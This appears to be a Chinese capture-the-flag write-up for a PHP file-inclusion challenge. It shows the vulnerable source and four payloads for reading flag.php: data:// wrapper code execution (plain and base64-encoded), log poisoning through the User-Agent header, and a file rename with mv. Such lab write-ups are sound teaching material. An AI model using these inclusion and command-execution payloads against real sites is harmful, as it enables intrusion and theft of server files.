





```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
} 
```

分析源码

提示flag在flag.php

过滤了

flag

同时包含传入的参数c


## 第一种

直接利用data://text/plain

```
?c=data://text/plain,<?php system("cat fla?.php")?>
```



利用?匹配flag从而绕过字符串过滤


## 第二种

利用data://text/plain并base64编码php代码实现字符串绕过

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```





## 第三种

日志注入

```
?c=/var/log/nginx/access.log
```



可以读取日志文件，依旧可以通过抓包修改UA头实现日志注入


## 第四种

利用*匹配字符串，同时利用mv修改文件名实现读取

```
?c=data://text/plain,<?php system("mv f* 1.txt");?>
```



然后访问1.txt

